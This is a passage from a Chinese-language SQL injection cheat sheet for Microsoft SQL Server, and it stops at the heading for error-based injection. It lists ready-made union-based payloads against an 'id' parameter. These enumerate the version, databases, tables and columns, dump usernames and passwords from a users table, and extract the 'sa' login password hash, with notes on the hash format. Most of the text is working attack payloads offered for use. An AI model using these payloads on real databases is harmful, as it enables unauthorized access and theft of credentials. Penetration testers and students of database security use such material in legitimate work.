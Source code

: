 ### 4. 注入方式

#### (1). 联合查询

##### a. 基本使用

```
1. 查询数据库版本
	id=-1' union select top 1 1,2,@@version
2. 查询当前数据库名
	id=-1' union select top 1 1,2,db_name()
3. 获取所有数据库名
	id=-1' union select top 1 1,2,name from master.sys.databases where name not in(select top 1 name from masters.sys.databases)
```

```
1. 获取当前数据库名
	id=0' union select top 1 1,2,db_name() --+	
	id=0' union select top 1 1,2,name from master.sys.databases  --+
2. 获取其他数据库名
	id=0' union select top 1 1,2,name from master.sys.databases where name not in (select top m name from master.sys.databases) --+		//m表示除当前数据库外的其他名称
3. 获取当前表名
	id=0' union select top 1 1,2,table_name from information_schema.tables --+
4. 获取所有表名
	id=0' union select top 1 1,2,table_name from information_schema.tables where table_name not in(select top m table_name from information_schema.tables)  --+	//m代表表位置
5. 获取当前列名
	id=0' union select top 1 1,2,column_name from information_schema.columns --+	
6. 获取所有列名
	id=0' union select top 1 1,2,column_name from information_schema.columns where table_name='users' and column_name not in (select top m column_name from information_schema.columns where table_name='users') --+	//m代表字段位置
7. 获取当前数据
	id=0' union select top 1 1,username,password from users --+	
8. 获取所有数据
	id=0' union select top 1 1,username,password from users where username not in(select top m username from users) and password not in(select top m password from users) --+		//m代表第几行数据
```

##### b. 使用总结

* **查询登录用户的HASH密码**

```
id=0' union select 1,2,(select master.dbo.fn_varbintohexstr(password_hash) from sys.sql_logins where name='sa')--+
//利用函数强制转换为16进制，避免受到格式的影响
```

Hash格式：**0x0100(头部)** + **8位salt** + **40位区分大小写的hash**

#### (2). 报错注入
